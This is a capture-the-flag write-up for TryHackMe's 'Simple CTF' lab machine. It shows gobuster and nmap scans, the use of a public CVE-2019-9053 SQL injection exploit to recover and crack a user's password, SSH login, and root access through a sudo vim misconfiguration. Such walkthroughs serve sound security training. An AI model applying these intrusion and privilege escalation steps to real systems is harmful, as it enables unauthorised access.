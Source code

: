 # Simple CTF

## Task 1 Simple CTF
```
export IP=10.10.220.110
```

**gobuster:**
```bash
jeffrowell@kali:~/Documents/TryHackMe/Simple CTF$ gobuster dir -u http://$IP -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.220.110
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/05/22 17:44:04 Starting gobuster
===============================================================
/simple (Status: 301)
===============================================================
2020/05/22 18:05:36 Finished
===============================================================
```

### 1. How many services are running under port 1000?
```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-22 17:42 MDT
Nmap scan report for 10.10.220.110
Host is up (0.16s latency).
Not shown: 997 filtered ports
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.8.21.42
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 2 disallowed entries
|_/ /openemr-5_0_1_3
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 29:42:69:14:9e:ca:d9:17:98:8c:27:72:3a:cd:a9:23 (RSA)
|   256 9b:d1:65:07:51:08:00:61:98:de:95:ed:3a:e3:81:1c (ECDSA)
|_  256 12:65:1b:61:cf:4d:e5:75:fe:f4:e8:d4:6e:10:2a:f6 (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 52.13 seconds
```


### 2. What is running on the higher port?

```
SSH
```

### 3. What's the CVE you're using against the application?
```
CVE-2019-9053
```

### 4. To what kind of vulnerability is the application vulnerable?
```
SQLi
```

### 5. What's the password?
Running [CVE-2019-9053 exploit](https://www.exploit-db.com/exploits/46635) script with flags `-u`, `--crack`, and `--wordlist` gives us the following information:
```bash
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
[+] Password cracked: secret
```

### 6. Where can you login with the details obtained?
```
SSH
```

### 7. What's the user flag?
```bash
$ cat user.txt
G00d j0b, keep up!
```

### 8. Is there any other user in the home directory? What's its name?
```
sunbath
```

```bash
$ ls /home
mitch  sunbath
```

### 9. What can you leverage to spawn a privileged shell?
```
$ sudo -l
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
```

### 10. What's the root flag?
```bash
$ sudo vim /root/root.txt
```

![root](https://user-images.githubusercontent.com/32188816/82718485-00a79e80-9c60-11ea-8715-c73b7aa87bf2.png)

